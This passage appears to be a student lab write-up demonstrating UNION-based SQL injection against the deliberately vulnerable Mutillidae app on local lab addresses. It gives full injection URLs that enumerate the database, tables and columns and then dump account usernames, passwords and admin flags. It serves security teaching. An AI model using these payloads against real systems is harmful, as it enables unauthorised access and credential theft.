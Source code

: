 ![Screenshot 2024-05-09 180644](https://github.com/VARSHINI22009118/sqlinjection/assets/119401150/04c1ef18-2b86-453d-bd5b-b7c048b38328)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.56.101/mutillidae/index.php?page=user-info.php&username=varshini%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-09 181622](https://github.com/VARSHINI22009118/sqlinjection/assets/119401150/53fa28a7-1573-49dd-a1af-c5af0d1587d4)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=varshini%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-09 182038](https://github.com/VARSHINI22009118/sqlinjection/assets/119401150/3cef4dd3-70da-4923-ac65-c1a3399bb406)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![Screenshot 2024-05-09 191647](https://github.com/VARSHINI22009118/sqlinjection/assets/119401150/3435d2c2-145e-4310-b29a-9274e8ac8166)

The column names of the accounts is displayed below for the following url:

http://192.168.56.101/mutillidae/index.php?page=user-info.php&username=varshini%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-09 182623](https://github.com/VARSHINI22009118/sqlinjection/assets/119401150/b15c45a9-b429-4161-8903-95c1070ce42d)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.56.101/mutillidae/index.php?page=user-info.php&username=varshini%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
